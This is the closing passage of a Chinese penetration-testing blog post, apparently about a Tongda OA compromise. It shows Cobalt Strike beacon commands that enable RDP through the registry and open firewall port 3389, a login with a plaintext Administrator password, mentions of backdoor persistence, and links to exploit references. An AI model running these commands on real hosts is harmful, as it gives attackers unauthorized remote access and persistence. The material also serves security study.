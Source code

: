 还可以直接设置 powershell、exe 可执行文件以及注册表中注入后门

具体操作为持久性后门可查看相关内容；

https://blog.csdn.net/weixin\_43650289/article/details/108730130

注册表内——开启 3389 端口进行连接  

```
beacon> shell REG ADD HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal" "Server /v fDenyTSConnections /t REG\_DWORD /d 00000000 /f
beacon> shell netsh advfirewall firewall add rule  dir=in protocol=tcp localport=3389 action=allow

```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfWLVKUCU50ChDx73lauLQftSU3RozAQmwczzVpZpfg12lDUjcVgicgvw/640?wx_fmt=png)  

3389 端口已经打开，远程进行连接

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfCUm0JK4GsOVY1CRwaTuP7sibQnicbnwPia63ulDvPvPFwyrkyiah6ROZHQ/640?wx_fmt=png)

输入账户和密码 ；Administrator   ms@2020

进入桌面

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfRrtGz5MlP8xMGp2E8MT7jL6DqWLXENxHHdnfujzrHicGea9BLHRLuSw/640?wx_fmt=png)

结束！！！

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwYckEpxUdvbzjtL8q4MYFfUia74RibdHiaxt7KDfsjG3BLZgzmbVpLC4uRcIljXvKBiazrJrlzqu0ZbQ/640?wx_fmt=png)

**参考以下内容：**

https://www.cnblogs.com/Alleyn180400524/p/13593759.html

https://www.sinesafe.com/article/20190923/wenjianchuan.html

https://www.heibai.org/post/1730.html

https://www.secpulse.com/archives/tag/%E9%80%9A%E8%BE%BEoa%E6%BC%8F%E6%B4%9E

https://www.secpulse.com/archives/125954.html

https://github.com/NS-Sp4ce/TongDaOA-Fake-User

****扫描关注乌云安全****

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavz34wLFhdnrWgsQZPkEyKged4nfofK5RI5s6ibiaho43F432YZT9cU9e79aOCgoNStjmiaL7p29S5wdg/640?wx_fmt=jpeg)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**